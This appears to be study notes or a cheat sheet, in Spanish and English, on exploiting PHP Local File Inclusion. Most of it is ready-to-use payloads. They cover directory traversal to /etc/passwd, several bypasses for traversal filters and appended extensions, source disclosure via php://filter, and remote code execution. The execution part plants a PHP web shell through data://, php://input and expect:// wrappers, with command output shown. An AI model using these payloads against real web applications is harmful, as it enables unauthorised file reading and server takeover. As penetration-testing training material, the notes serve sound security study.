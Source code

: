 
# Local File Inclusion

```c
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```

## Path Traversal

```c
include($_GET['language']);
```

```c
include("./languages/" . $_GET['language']);
```

## Filename Prefix

```c
include("lang_" . $_GET['language']);
```

## Appended Extensions

```c
include($_GET['language'] . ".php");
```

# Basic Bypasses

```c
$language = str_replace('../', '', $_GET['language']);
```

## Non-Recursive Path Traversal Filters

Uno de los filtros más básicos contra LFI es un filtro de búsqueda y reemplazo, en el que simplemente se eliminan las subcadenas de (`../`) para evitar los recorridos.

```c
$language = str_replace('../', '', $_GET['language']);
```

```c
http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
```

## Encoding

Si la aplicación web de destino no permite y `/` en nuestra entrada, podemos codificar la URL `../` en `%2e%2e%2f`, lo que puede eludir el filtro. Para ello, podemos utilizar cualquier utilidad de codificación de URL en línea o utilizar la herramienta Burp Suite Decoder, como se indica a continuación:

```c
<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

## Approved Paths

```c
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

```c
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

## Appended Extension

### Path Truncation

```c
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

### Null Bytes

Para explotar esta vulnerabilidad, podemos terminar nuestro payload con un byte nulo (por ejemplo, `/etc/passwd%00`), de forma que la ruta final pasada a include() sería (`/etc/passwd%00.php`). De esta forma, aunque .php se añade a nuestra cadena, cualquier cosa después del byte nulo se truncaría, y así la ruta utilizada sería realmente /etc/passwd, lo que nos llevaría a evitar la extensión añadida.

# PHP Filters

## Input Filters

```c
 php://

php://filter/
```

Hay cuatro tipos diferentes de filtros disponibles para su uso: [filtros de cadenas](https://www.php.net/manual/en/filters.string.php) , [filtros de conversión](https://www.php.net/manual/en/filters.convert.php) , [filtros de compresión](https://www.php.net/manual/en/filters.compression.php) y [filtros de cifrado](https://www.php.net/manual/en/filters.encryption.php) . Puede leer más sobre cada filtro en su enlace respectivo, pero el filtro que es útil para los ataques LFI es el `convert.base64-encode`filtro que se encuentra en `Conversion Filters`.


## Fuzzing for PHP Files

```c
ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php

...SNIP...

index                   [Status: 200, Size: 2652, Words: 690, Lines: 64]
config                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

# PHP Wrappers

## Checking PHP Configurations


```c
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

```c
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

### Remote Code Execution

```c
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Ahora, podemos codificar la cadena base64 en la URL y luego pasarla al contenedor de datos con `data://text/plain;base64,`. Por último, podemos usar comandos de paso al shell web con `&cmd=<COMMAND>`:

```c
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

```c
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Input

```c
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Expect

```c
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

```c
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Base64 

```c
php://filter/read=convert.base64-encode/resource=config
```

```c
php://filter/convert.base64-encode/resource=config
```

#### 1. **`php://filter/read=convert.base64-encode/resource=config`**

- **Significado**:
    - Aplica el filtro `convert.base64-encode` al leer (`read`) el recurso especificado (`resource=config`).
- **Uso**:
    - Lee el archivo llamado `config` y lo devuelve codificado en Base64.
- **Explicación técnica**:
    - El filtro `read=convert.base64-encode` transforma los datos leídos desde el archivo `config` en su equivalente codificado en Base64.
#### 2. **`php://filter/convert.base64-encode/resource=config`**

- **Significado**:
    - Se refiere directamente al filtro `convert.base64-encode` aplicado al recurso `config`.
- **Uso**:
    - Intenta aplicar el filtro de codificación en Base64 sin especificar explícitamente una operación (`read`, `write`, etc.).
- **Limitación**:
    - Esta forma no siempre es válida, ya que el filtro debe aplicarse a una acción específica como `read` o `write`. En muchos casos, este formato puede no funcionar correctamente.

```c
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

```c
[!bash!]$ echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d

...SNIP...

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

...SNIP...
```

## Rot13

```c
php://filter/read=string.rot13/resource=<archivo>
```

## zip://

```c
zip://<archivo zip>%23<archivo php>
```

## data://

```c
data:text/plain,<código PHP>
```

- [https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams)